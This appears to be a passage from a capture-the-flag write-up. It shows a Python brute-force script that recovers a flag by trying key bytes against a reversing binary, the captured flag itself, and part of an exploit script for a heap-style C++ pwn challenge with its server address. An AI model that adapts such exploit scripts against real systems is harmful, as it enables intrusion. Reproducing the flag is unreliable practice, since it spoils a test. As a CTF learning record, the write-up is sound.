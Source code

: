 Some operations are done on a **few** bytes of our input array, and then this is used as a key to *tea decrypt* some memory.
An interesting note is that only 4 bytes of our input were used in the key.

This should be bruteforceable!

```python
#!/usr/bin/env python3
import subprocess

cset = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '[', '\\', ']', '^', '_', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '{', '|', '}']
l = ['_']*0x2f

i = 0
for l[0xd] in cset:
    for l[0xf] in cset:
        print(i)
        with open(f"data/{l[0xd]}-{l[0xf]}", "wb") as f:
            for l[0x28] in cset:
                for l[0x2e] in cset:
                    s = "".join(l)
                    s = s.encode('Latin-1')
                    output = subprocess.check_output("./patched", input=s)
                    f.write(output[0x47:])
        i += 1
```

The script ran very slow, but eventually, we can strings out the flag!

`TISC{P0lyM0rph15m_r3m1nd5_m3_0f_M0rb1us_7359430}`

## 6. Pwnlindrome
> PALINDROME's recruitment operations has resumed once again.
>
> One of our agents managed to obtain a copy of the .elf binary used in their recruitment operations. Will you be able to pass this test and get us further into their organization?
>
> The time is ticking. Good luck!
>
> To access server: nc chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg 64421

This pwn challenge was a C++ binary with quite a bit of code, so it was a pain to go through.

I realised that deleting the root node led to some big issues, and I cannot really remember my exploit at this point of writing, but this is my script:

```python
def exploit(r):
    # Level 1
    r.sendlineafter(": ", "1")
    r.sendlineafter(": ", "180")
    for i in range(16):
        r.sendlineafter("? ", str(610))

    # Level 3
    r.sendlineafter(": ", "3")
    r.sendlineafter(": ", "-2")
    r.sendlineafter("below.\n\n", "B"*50)

    # Level 2
    r.sendlineafter(": ", "2")

    r.sendlineafter("? ", "1")
    r.sendlineafter(": ", "100")
```